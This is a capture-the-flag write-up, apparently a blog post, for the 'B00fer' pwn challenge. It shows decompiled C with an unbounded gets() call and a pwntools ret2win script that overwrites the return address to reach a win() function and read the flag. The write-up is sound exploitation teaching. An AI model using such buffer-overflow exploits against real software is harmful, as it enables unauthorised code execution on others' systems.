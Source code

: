 +++
date = '2024-10-28T09:17:00+02:00'
draft = false 
title = 'B00fer'
tags = [ 'pwn' ]
+++

## Intro

Name: B00fer  
Description:   
    The Consortium sent us this file and connection info. Looks like they are taunting us.  
    They are running the file at b00fer.niccgetsspooky.xyz, at port 9001. Try to get them to give up the flag.  
    `nc b00fer.niccgetsspooky.xyz 9001`  
Author: [Robert Blacha](https://github.com/RobertPBlacha)  
  
This will be a pwn challenge seeing the name and the fact that we are given a remote.  
We are only given the binary, no source code.  

## Exploring
  
Running checksec we see :
- No stack canary
- No PIE
- The binary is not stripped

Running the program we are asked for an input without much info on what to enter.

Let's spin up ghidra and see what we're dealing with.
```C
int main(void)
{
  char buffer [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi there NICC! This program is 100% and there is NO WAY you are getting our flag.\n");
  gets(buffer);
  return 0;
}
```

So we are facing a classic ret2win challenge, we even have a beautiful function named win.

```c
void win(void)
{
  char flag [40];
  FILE *file;
  
  file = fopen("flag.txt","r");
  fread(flag,1,0x20,file);
  puts(flag);
  puts("Good!\n");
  exit(1);
}
```

## Exploiting

We simply need to overwrite the return address of main to call win.  
First let's compute the offset, using pwndbg we find that win is at `0x401227` and that the return address of main will be replaced by the 6th byte in the buffer.  

  
To finish this we write a nice script using pwntools  

```python
payload = flat(
        b'\x00'*5*8,
        p64(0x401227) 
        )

io = start()

io.sendlineafter(b'Hi there NICC! This program is 100% and there is NO WAY you are getting our flag.\n', payload)

io.recvline().decode()
print(io.recvline().decode())
```

And we get the flag :

```bash
./exploit.py REMOTE b00fer.niccgetsspooky.xyz 9001
NICC{Sp00ked_the_fl4g_0ut_of_m3}
```
